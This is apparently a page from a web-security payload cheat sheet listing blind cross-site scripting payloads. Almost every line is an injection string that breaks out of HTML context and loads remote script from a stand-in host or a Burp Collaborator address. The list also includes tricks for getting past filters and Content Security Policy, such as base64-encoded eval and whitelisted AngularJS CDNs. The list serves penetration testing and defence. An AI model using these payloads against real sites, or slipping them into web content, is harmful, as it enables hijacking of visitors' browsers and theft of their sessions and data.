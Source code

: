 ### Blind XSS payloads

You can also use: [https://xsshunter.com/](https://xsshunter.com)

```markup
"><img src='//domain/xss'>
"><script src="//domain/xss.js"></script>
><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send();</script>

<!-- html5sec - Self-executing focus event via autofocus: -->
"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>

<!-- html5sec - JavaScript execution via iframe and onload -->
"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')"> 

<!-- html5sec - SVG tags allow code to be executed with onload without any other elements. -->
"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>

<!-- html5sec -  allow error handlers in <SOURCE> tags if encapsulated by a <VIDEO> tag. The same works for <AUDIO> tags  -->
"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!--  html5sec - eventhandler -  element fires an "onpageshow" event without user interaction on all modern browsers. This can be abused to bypass blacklists as the event is not very well known.  -->
"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!-- xsshunter.com - Sites that use JQuery -->
<script>$.getScript("//domain")</script>

<!-- xsshunter.com - When <script> is filtered -->
"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>

<!-- xsshunter.com - Bypassing poorly designed systems with autofocus -->
"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>

<!-- noscript trick -->
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<!-- whitelisted CDNs in CSP -->
"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
<!-- ... add more CDNs, you'll get WARNING: Tried to load angular more than once if multiple load. but that does not matter you'll get a HTTP interaction/exfiltration :-]... -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
